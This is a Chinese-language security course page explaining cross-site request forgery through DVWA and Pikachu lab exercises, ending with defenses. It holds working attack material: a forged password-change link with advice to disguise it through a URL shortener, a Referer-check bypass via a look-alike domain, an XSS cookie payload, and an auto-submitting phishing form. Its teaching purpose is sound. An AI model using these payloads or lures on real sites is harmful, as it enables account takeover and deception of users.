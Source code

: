 ```yaml
---
slug: /net-security/09/01
---
```


👉 课件 PDF：[CSRF](./CSRF%20Training.pdf)

## 简介

**跨站请求伪造**（CSRF，Cross Site Request Forgery），用户登陆了网站，然后另外一个网站利用了该登录态，然后发起伪造的请求。



![](http://img.wukaipeng.com/2023/11/03-080416-image-20231103080415904.png)



CSRF 的三个关键条件：

1️⃣ 属于功能操作。比如点击修改邮箱、密码

2️⃣ 基于 Cookie。后端仅依赖 Cookie 识别验证用户

3️⃣ 参数确定。没有随机、不可预测的参数。



## DVWA 演示

### Low

打开 CSRF 模块，查看源码：

```php
<?php

if( isset( $_GET[ 'Change' ] ) ) {
    // Get input
    $pass_new  = $_GET[ 'password_new' ];
    $pass_conf = $_GET[ 'password_conf' ];

    // Do the passwords match?
    if( $pass_new == $pass_conf ) {
        // They do!
        $pass_new = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass_new ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
        $pass_new = md5( $pass_new );

        // Update the database
        $insert = "UPDATE `users` SET password = '$pass_new' WHERE user = '" . dvwaCurrentUser() . "';";
        $result = mysqli_query($GLOBALS["___mysqli_ston"],  $insert ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

        // Feedback for the user
        echo "<pre>Password Changed.</pre>";
    }
    else {
        // Issue with passwords matching
        echo "<pre>Passwords did not match.</pre>";
    }

    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}

?> 
```

抓包后，发现符合 CSRF 攻击的三个条件：

- 修改密码操作
- 仅用 Cookie 做校验
- 参数确定

![](http://img.wukaipeng.com/2023/11/03-084127-image-20231103084127381.png)

在同一网页下，访问 `http://YOUR_IP_ADDRESS:PORT/vulnerabilities/csrf/?password_new=234&password_conf=234&Change=Change#` 就可以修改密码

为了伪装这条链接，可以使用短链接工具 🧰 [He3 - 短链生成器](https://t.he3app.com/nvmj) 生成短链，比如：`https://3ehapps.com/s/DSTjbX`



### Medium

之前如果是使用 `sagikazarmark/dvwa` 的镜像的话，现在改为 `citizenstig/dvwa`：

```bash
docker pull docker.io/citizenstig/dvwa
docker run -d --name c-dvwa -p 8081:80 -p 3307:3306 docker.io/citizenstig/dvwa
```

> 初始化后，账号为 `admin`，密码为 `password`

查看 CSRF 模块源码，可以看到，比 Low 源码增加了验证 `SERVER_NAME` 和 `HTPP_REFERER`

```php
<?php

if( isset( $_GET[ 'Change' ] ) ) {
    // Checks to see where the request came from
    if( eregi( $_SERVER[ 'SERVER_NAME' ], $_SERVER[ 'HTTP_REFERER' ] ) ) {
       //...
    }
    //...
}

?> 
```

> 💡 这里用 `eregi()` 函数做校验，这也是为什么用 `citizenstig/dvwa` 这个镜像的原因。这个函数用于匹配正则表达式 or 字符串匹配，不区分大小写，最新 PHP7 已经完全移除了，用 `preg_match()` 替代

绕过方法：比如目标网站是 `www.wukaipeng.com`，可以构造网站 `www.wukaipeng.com.hacker.com`，该网站包含目标网站字符串，因此可以绕过校验。



### High

High 等级包含 Anti-CSRF 机制，每次访问的修改密码页面都会包含随机的 `user_token`：

![](http://img.wukaipeng.com/2023/11/04-063905-image-20231104063905106.png)

修改密码请求的参数会带上 `user_token`，那么 CSRF 第三个关键条件就破坏了，参数是不确定的：

```php
<?php

if( isset( $_GET[ 'Change' ] ) ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Get input
    $pass_new  = $_GET[ 'password_new' ];
    $pass_conf = $_GET[ 'password_conf' ];

    // Do the passwords match?
    if( $pass_new == $pass_conf ) {
        // They do!
        $pass_new = mysql_real_escape_string( $pass_new );
        $pass_new = md5( $pass_new );

        // Update the database
        $insert = "UPDATE `users` SET password = '$pass_new' WHERE user = '" . dvwaCurrentUser() . "';";
        $result = mysql_query( $insert ) or die( '<pre>' . mysql_error() . '</pre>' );

        // Feedback for the user
        echo "<pre>Password Changed.</pre>";
    }
    else {
        // Issue with passwords matching
        echo "<pre>Passwords did not match.</pre>";
    }

    mysql_close();
}

// Generate Anti-CSRF token
generateSessionToken();

?> 
```

可以结合 XSS 攻击，先获取 cookie：

在 XSS（Reflected）模块使用 `<img src=x OnerrOr=alert(document.cookie)>` 获取 cookie：

![](http://img.wukaipeng.com/2023/11/04-064516-image-20231104064516537.png)



抓包修改：



![](http://img.wukaipeng.com/2023/11/04-071749-image-20231104071748887.png)

## Pikachu

### Get

Get 请求例子很简单，和 DVWA 一样：

![](http://img.wukaipeng.com/2023/11/04-075945-image-20231104075945273.png)

### POST

对于 POST 请求的链接，可以制作钓鱼网页诱导用户：

```html
<html>
  <head>
    <script>
      // 自动点击提交
      window.onload = function () {
        document.getElementById('postsubmit').click()
      }
    </script>
  </head>
  <body>
    <form
      method="post"
      action="http://TARGET_IP_ADDRESS:PORT/vul/csrf/csrfpost/csrf_post_edit.php"
    >
      <input id="sex" type="text" name="sex" value="boy" />
      <input id="phonenum" type="text" name="phonenum" value="100000002" />
      <input id="add" type="text" name="add" value="hacker" />
      <input id="email" type="text" name="email" value="dummy@hacker.com" />
      <input id="postsubmit" type="submit" name="submit" value="submit" />
    </form>
  </body>
</html>
```

用户点击钓鱼网站，首先会访问该网页，该网页会发起 POST 请求到目标网站，修改用户信息，然后再跳转到目标网站页面，整个过程很快：



![](http://img.wukaipeng.com/2023/11/04-082611-image-20231104082611857.png)

上述 CSRF 的 POV 代码也可以直接让 Burp 生成：

![](http://img.wukaipeng.com/2023/11/04-083217-image-20231104083217166.png)

![](http://img.wukaipeng.com/2023/11/04-083242-image-20231104083242445.png)

## 防御

最靠谱的防御方法是加入 Anti-CSRF Token，破坏第三个关键条件。

1️⃣ HTTP Referer：HTTP Referer  指示请求的来源，可以通过它校验请求是否来自于可信域。

2️⃣ Anti-CSRF Token

3️⃣ 验证码

















